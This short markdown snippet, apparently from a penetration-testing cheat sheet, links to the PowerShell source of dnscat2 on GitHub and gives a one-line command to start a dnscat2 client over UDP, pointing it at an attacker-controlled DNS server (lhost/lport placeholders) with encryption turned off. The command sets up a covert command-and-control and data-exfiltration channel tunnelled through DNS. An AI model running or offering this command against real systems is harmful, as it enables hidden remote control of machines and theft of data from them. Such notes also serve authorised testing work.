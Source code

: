 ### source
https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1  

### start client (using UDP)
```
Start-Dnscat2 -Domain <domain> -DNSServer <lhost> -DNSPort <lport> -NoEncryption
```

